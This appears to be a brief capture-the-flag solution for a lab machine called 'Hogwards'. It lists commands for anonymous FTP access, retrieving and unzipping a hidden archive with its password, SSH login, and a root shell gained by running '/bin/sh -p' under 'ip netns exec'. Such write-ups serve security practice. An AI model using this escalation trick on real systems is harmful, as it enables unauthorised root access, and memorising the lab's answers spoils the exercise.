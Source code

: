 # Hogwards
1. `ftp $IP -p 7259` and anonymous
2. `get .I_saved_it_harry.zip`
3. `unzip .I_saved_it_harry.zip` passwod is:`qwer1234`
4. `ssh -l nevilla -p 9075 $IP`
5. `ip netns add foo`
6. `ip netns exec foo /bin/sh -p`
